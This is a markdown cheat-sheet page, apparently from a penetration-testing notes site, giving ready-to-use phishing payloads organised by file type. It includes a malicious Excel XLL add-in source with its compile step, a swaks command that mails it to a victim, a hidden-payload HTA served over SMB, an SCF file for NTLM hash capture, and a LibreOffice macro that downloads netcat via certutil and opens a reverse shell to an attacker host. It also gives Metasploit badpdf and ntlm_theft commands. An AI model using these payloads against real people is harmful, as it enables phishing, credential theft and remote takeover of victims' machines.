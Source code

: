 ```yaml
---
title: "Phishing"
date: 2024-6-26
tags: ["phishing", "email", "xll", "excel", "hta", "shortcut", "Windows", "odt", "libre", "vba", "ntlm_theft"]
---
```


{{< tab set1 tab1 active >}}lnk{{< /tab >}}
{{< tab set1 tab2 >}}xll{{< /tab >}}
{{< tab set1 tab3 >}}hta{{< /tab >}}
{{< tab set1 tab4 >}}scf{{< /tab >}}
{{< tab set1 tab5 >}}odt{{< /tab >}}
{{< tab set1 tab6 >}}pdf{{< /tab >}}
{{< tab set1 tab7 >}}others{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
$obj = New-Object -ComObject WScript.Shell
```

```console
$link = $obj.CreateShortcut("C:\ProgramData\Calculator.lnk")
```

```console
$link.TargetPath = "C:\ProgramData\rev.exe"
```

```console
$link.Save()
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### shell.c

```console
#include <windows.h>

__declspec(dllexport) void __cdecl xlAutoOpen(void); 

void __cdecl xlAutoOpen() {
    // Triggers when Excel opens
    WinExec("<POWERSHELL_3_BASE64>", 1); // Replace your payload
}

BOOL APIENTRY DllMain( HMODULE hModule,
                    DWORD  ul_reason_for_call,
                    LPVOID lpReserved
                    )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

#### 1. Compile shell.c in Linux

```console
x86_64-w64-mingw32-gcc -fPIC -shared -o shell.xll shell.c -luser32
```

#### 2. Send email with the malicious xll file

```console
swaks --to '<VICTIM>@<DOMAIN>' --from 'attacker@<DOMAIN>' --server '<DOMAIN>' --header "This is not a malicious file" --body "This is not a malicious file" --attach '@shell.xll'
```

<small>*Ref: [revshells.com](https://www.revshells.com/)*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab3 >}}

#### 1. Start a Local SMB Server

```console
# In our local Linux machine
impacket-smbserver -smb2support share .
```

#### 2. Create a Malicious hta File in local Linux SMB share

```console
<html>
    <head>
        <HTA:APPLICATION ID="shell">
        <script language="javascript">
            var c = "<POWERSHELL_3_BASE64>";  
            new ActiveXObject('WScript.Shell').Run(c, 0, true); 
        </script>
    </head>
    <body>
        <script>self.close();</script>
    </body>
</html>
```

#### 3. Create a shortcut file in target Windows

```console
# In target Windows machine (powershell)
$url = "file://<LOCAL_IP>/share/shell.hta"
```

```console
$shortcutPath = "C:\ProgramData\shell.url"
```

```console
$shortcutContent = "[InternetShortcut]`r`nURL=$url"
```

```console
Set-Content -Path $shortcutPath -Value $shortcutContent
```

<small>*Ref: [revshells.com](https://www.revshells.com/)*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab4 >}}

### If any interaction from target to smb share

#### 1. Start Responder

```console
# In our local Linux machine
sudo responder -I tun0
```

#### 2. Create a malicious shortcut

```console
[Shell]
Command=2

IconFile=\\<LOCAL_IP>\icon
```

#### 3. Upload the malicious shortcut

```console
# In our local Linux machine
smbclient -N \\\\<TARGET>\\share\\
```

```console
mput evil.scf
```

{{< /tabcontent >}}
{{< tabcontent set1 tab5 >}}

```console
+--------------------------------------------------------+
| 1. "Tools" > "Macros" > "Organize Macros" > "Basic..." |
| 2. "Untitled 1" > "Standard" > "New"                   |
| 3. "Paste the code below"                              |
+--------------------------------------------------------+
```

<br>

```console
Sub OnLoad
    shell("cmd /c certutil -urlcache -split -f http://<LOCAL_IP>/nc64.exe C:\programdata\nc64.exe && C:\programdata\nc64.exe -e cmd <LOCAL_IP> <LOCAL_PORT>")
End Sub
```

<br>

```console
+-----------------------------------------------------------+
| 4. "Tools" > "Organize Macros" > "Basic..." > "Assign..." |
| 5. "Events" > "Open Document" > "OK"                      |
| 6. "SAVE"                                                 |
+-----------------------------------------------------------+
```

{{< /tabcontent >}}
{{< tabcontent set1 tab6 >}}

```console
msfconsole -q
```

```console
search badpdf
```

```console
set filename evil.pdf
```

```console
set lhost <LOCAL_IP>
```

```console
exploit
```

{{< /tabcontent >}}
{{< tabcontent set1 tab7 >}}

```console
python3 ntlm_theft.py -g all -s <LOCAL_IP> -f test
```

<small>*Ref: [ntlm_theft](https://github.com/Greenwolf/ntlm_theft)*</small>

{{< /tabcontent >}}
